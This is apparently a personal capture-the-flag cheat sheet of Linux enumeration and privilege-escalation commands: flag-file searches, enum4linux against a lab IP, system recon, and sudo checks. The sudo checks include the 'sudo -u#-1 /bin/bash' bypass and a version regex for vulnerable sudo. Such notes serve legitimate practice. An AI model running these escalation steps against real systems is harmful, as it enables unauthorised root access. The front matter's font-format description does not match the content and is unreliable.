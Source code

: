 ```yaml
---
layout: post
title: Linux
description: What is the difference between various font formats?
summary: What is the difference between various font formats?
tags: web crypto enum
minute: 1
---
```


#tech/cybersecurity/pentest
#tech/linux
#tech/cybersecurity/enum

# Quick start
```bash
# For starters in CTF, try locating both user.txt and root.txt quickly and see if it will return any results
locate user.txt
locate root.txt
find / -name user.txt 2> /dev/null
find / -name root.txt 2> /dev/null
```

# Remote recon
```bash
# finding unix users (only if SMB is active)
enum4linux -a 10.10.230.193
```

# System Information
```bash
# Check what OS and kernel
cat /etc/os-release
cat /etc/centos-release
lsb_release -a
uname -a

# dmesg verification failed?
dmesg 2>/dev/null | grep "signature"

# other system enumeration
date
(df -h || lsblk)
lscpu && free -m
lpstat -a 2>/dev/null
```

# SUDO
```bash
# check is sudo is vulnerable
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
sudo -u#-1 /bin/bash
searchsploit sudo

# others
sudo -i
sudo /bin/bash
sudo su-
pkexec visudo
```